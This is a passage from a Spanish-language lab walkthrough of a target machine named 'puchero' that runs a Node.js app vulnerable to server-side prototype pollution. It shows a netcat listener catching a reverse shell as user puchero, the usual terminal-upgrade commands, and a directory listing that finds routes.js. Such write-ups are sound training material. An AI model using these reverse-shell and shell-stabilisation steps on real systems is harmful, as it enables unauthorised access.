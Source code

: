 Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.110] 40324
bash: no se puede establecer el grupo de proceso de terminal (349): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
puchero@puchero:/var/www/html/PrototypePollution-Lab/prototypePoluttion$ whoami
<l/PrototypePollution-Lab/prototypePoluttion$ whoami
puchero
```
Estamos dentro y somos el **usuario puchero**.

Obtengamos una sesión interactiva:
```bash
# Paso 1
script /dev/null -c bash

# Paso 2
CTRL + Z

# Paso 3
stty raw -echo; fg

# Paso 4
reset -> xterm

# Paso 5
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```

Dentro de este directorio, encontraremos el script de la página vulnerable al **Server Side Prototype Pollution**, llamado **routes.js**:
```bash
puchero@puchero:/var/www/html/PrototypePollution-Lab/prototypePoluttion$ ls -la
total 132
drwxr-xr-x  6 puchero root     4096 jun 14 00:23 .
drwxr-xr-x  4 root    root     4096 abr 12  2024 ..
drwxr-xr-x  2 puchero root     4096 may 21  2024 css
drwxr-xr-x  2 puchero root     4096 abr 12  2024 downloads
drwxr-xr-x  2 puchero root     4096 may 21  2024 htmls
-rw-r--r--  1 puchero puchero 11058 may 13  2024 index.html
-rw-r--r--  1 puchero puchero 11058 may 13  2024 index.html.1
-rw-r--r--  1 puchero puchero 11058 may 13  2024 index.html.2
-rw-r--r--  1 puchero puchero 11058 may 13  2024 index.html.3
-rw-r--r--  1 puchero puchero 11058 may 13  2024 index.html.4
-rw-r--r--  1 puchero puchero 11058 may 13  2024 index.html.5
drwxr-xr-x 53 puchero puchero  4096 may 21  2024 node_modules
-rw-r--r--  1 puchero root      293 abr 12  2024 package.json
-rw-r--r--  1 puchero puchero 18380 may 21  2024 package-lock.json
-rw-r--r--  1 puchero root     4317 may 21  2024 routes.js
-rw-r--r--  1 puchero root      254 abr 12  2024 server.js
```
